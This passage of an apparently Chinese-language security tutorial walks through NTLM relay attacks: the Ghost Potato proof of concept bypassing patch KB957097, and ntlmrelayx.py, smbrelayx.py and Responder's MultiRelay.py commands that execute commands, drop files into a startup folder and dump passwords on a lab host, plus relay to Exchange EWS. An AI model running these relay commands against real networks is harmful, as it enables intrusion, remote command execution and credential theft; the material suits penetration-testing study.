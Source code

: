shenaniganslabs 放出了漏洞利用 poc，基于 impacket 进行修改，目前只能支持收到 http 协议请求的情况。该 poc 在 sleep 315 秒之后，再发送 Type 3 认证消息，于是就绕过了 KB957097 补丁。详情：https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html

该 poc 实现的效果是在目标机器的启动目录上传指定的文件

```
python ntlmrelayx.py -t smb://10.211.55.7 -smb2support --gpotato-startup test.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmx7vtibBQ2FJB1FrD5V4by8VmzwZcIKTFfOGueneIRwvwu2l0DoLdh4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmic812VWzFpUXbwgveiallBeNIXE0NA0KGGctMAGNodDZ0Ps3q1VkycxQ/640?wx_fmt=png)  

**域环境**

**impacket 下的 smbrelayx.py**

```
./smbrelayx.py -h 10.211.55.7 -c whoami
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmhGwicOxYQCFLDrHkYlJlT7prUicibHicZmfFxXAZwoxBx2icM9icQE1tKticg/640?wx_fmt=png)

**impacket 下的 ntlmrelayx.py**  

```
./ntlmrelayx.py -t smb://10.211.55.7 -c whoami -smb2support
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmkAL6FUesTfibTU8IWPJSelg7K44pic1WCFIP9e7GWvatribhKd0ZT2SZQ/640?wx_fmt=png)

**Responder 下的 MultiRelay.py 脚本**  

该脚本功能强大，通过 ALL 参数可以获得一个稳定的 shell，还有抓密码等其他功能。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmeOOH9V7d1CDmHVD8OKjq1jE3lBaNkXap1vpIMFyYOILXCBT9FEbM7Q/640?wx_fmt=png)

参看有哪些命令  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmpmFUBbRwibhESiacQQRyBNOy24WMEVwcBhOgFXBib8xFUricathQXmEcyg/640?wx_fmt=png)

执行系统命令  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmoJAHhQ0FgKxwBdJSXhBrb6ZOBibtHXTb9rMn0ic7Jc4NCt2kGFYrRjRw/640?wx_fmt=png)

抓取内存中的密码

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmSEC5CMLr04ialyBZG5baGmSWtFhfAZJiaA2Gng83bjWq2RR8ibZsg8aibw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640?wx_fmt=gif)

Relay To EWS

Exchange 认证也支持 NTLM SSP 的。于是我们可以将 SMB 流量 Relay 到 Exchange 的 EWS 接口，从而可以进行收发邮件等操作，还可以通过 Homepage 下发规则达到命令执行的效果。关于 Relay To EWS 详细利用，我会在后期文章中讲解，主要是使用 ntlmRelayToEWS.py 脚本。

**收发邮件**
